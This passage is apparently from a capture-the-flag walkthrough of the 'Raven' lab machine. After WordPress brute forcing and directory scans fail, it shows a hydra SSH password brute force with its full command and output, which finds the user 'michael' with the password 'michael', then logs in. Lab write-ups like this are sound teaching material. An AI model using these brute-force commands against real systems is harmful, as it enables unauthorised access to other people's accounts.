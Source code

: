 Alright, lots of interesting information here. First, we’ve found the version of Wordpress being used, along with a couple of usernames `michael` and `steven`. The default Wordpress login is usually in `wp-admin.php`, so launch Firefox in Kali and point it to http://raven.local/wordpress/wp-login.php.

Now here’s the part where I chased down the wrong path and lost some time. My initial thought was to see if I could bruteforce the passwords for both of these accounts. `wpscan` has that option. I tried several wordlists including `rockyou.txt` (found in `/usr/share/wordlists` in Kali).

When it became clear that it would take way too long to bruteforce the password, I decided to try a directory/file scan on the target using `dirbuster`. It found a whole bunch of directories and files, but nothing that I could leverage or use to move forward.

I then started going through the site manually, checking each page, looking at the HTML source for clues, but once again, nothing of interest stood out.

At this point, I realized it may be time to move on to a different service. SSH on port 22 was the other interesting one identified by `nmap`. Having the usernames `michael` and `steven`, I wondered if I could perform a bruteforce attack on those instead against the SSH service. For that I used `hydra`.

I decided to use the `rockyou.txt` wordlist and just bruteforce each username one at a time. By default `rockyou.txt` is gzip’d so you’ll need to unzip it first before you can use it:

```
root@kali:~# gunzip /usr/share/wordlists/rockyou.txt.gz
```

`hydra` takes a variety of options. For SSH it’s important to increase the timing between requests, otherwise you start getting errors. The other options I’ll use will attempt to use the username as the password, verbose mode, logging the results to a file, and quitting once it finds the password.

```
root@kali:~# hydra -l michael -e nsr -V -o hydra.log -t8 -f ssh://raven.local
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2018-11-08 23:50:38
[DATA] max 3 tasks per 1 server, overall 3 tasks, 3 login tries (l:1/p:3), ~1 try per task
[DATA] attacking ssh://raven.local:22/
[ATTEMPT] target raven.local - login "michael" - pass "michael" - 1 of 3 [child 0] (0/0)
[ATTEMPT] target raven.local - login "michael" - pass "" - 2 of 3 [child 1] (0/0)
[ATTEMPT] target raven.local - login "michael" - pass "leahcim" - 3 of 3 [child 2] (0/0)
[22][ssh] host: raven.local   login: michael   password: michael
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2018-11-08 23:50:39
```

After having wasted all the time trying to bruteforce Wordpress, it turned out that the password for `michael` on SSH was `michael`. So with the user credentials on hand, let’s log in:

```
root@kali:~# ssh michael@raven.local
Warning: Permanently added the ECDSA host key for IP address '192.168.206.131' to the list of known hosts.
michael@raven.local's password:

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
You have new mail.
-bash: warning: setlocale: LC_ALL: cannot change locale (en_US.UTF-8)
-bash: warning: setlocale: LC_ALL: cannot change locale (en_US.UTF-8)
-bash: warning: setlocale: LC_ALL: cannot change locale (en_US.UTF-8)
michael@Raven:~$
```
